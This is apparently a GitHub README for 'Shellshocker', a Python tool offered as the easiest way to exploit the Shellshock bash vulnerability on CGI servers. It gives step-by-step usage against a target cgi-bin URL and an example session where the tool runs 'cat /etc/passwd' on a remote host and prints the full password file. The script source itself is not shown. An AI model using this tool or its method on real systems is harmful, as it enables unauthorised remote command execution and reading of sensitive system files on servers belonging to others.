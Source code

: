 # Shellshocker
Shellshock easily exploitation

When you find Shellshock / Bashbug vulnerability and want the easiest way to exploit it, you can use Shellshocker.
Shellshocker suggests to avoid user-agent spoofing on-hand. In contrast to that it has a nice shell-interface.

### Usage
  1. Run the script with python: "python shellshocker.py http://exam.com/cgi-bin/cat"


  2. Hit command and press enter: "cat /etc/passwd"


  3. Read the output :)


### Example
```sh
/.../shellshoker$ python shellshoker.py http://10.0.0.12:591/cgi-bin/cat
Shellshock Command: cat /etc/passwd

root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucp:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
gopher:x:13:30:gopher:/var/gopher:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
vcsa:x:69:69:virtual console memory owner:/dev:/sbin/nologin
saslauth:x:499:76:"Saslauthd user":/var/empty/saslauth:/sbin/nologin
postfix:x:89:89::/var/spool/postfix:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
bynarr:x:500:501::/home/bynarr:/bin/bash
apache:x:48:48:Apache:/var/www:/sbin/nologin
apophis:x:501:502::/home/apophis:/bin/bash
```
